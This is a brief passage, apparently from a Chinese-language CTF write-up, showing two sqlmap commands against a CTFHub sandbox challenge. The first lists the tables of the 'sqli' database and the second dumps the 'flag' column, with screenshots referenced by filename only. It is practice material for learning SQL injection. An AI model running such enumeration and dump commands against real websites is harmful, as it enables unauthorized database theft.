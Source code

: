![Alt text](image-108.png)   
选择 `sqli` ，查看其中的表和字段：   
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1" -D "sqli" --tables
```   
![Alt text](image-111.png)   
获取 `flag` 表中的字段：   
```shell
 sqlmap -u "http://challenge-9ca7d5bd306c47c4.sandbox.ctfhub.com:10800/?id=1" -D "sqli" -T "flag" -C "flag" --dump
```   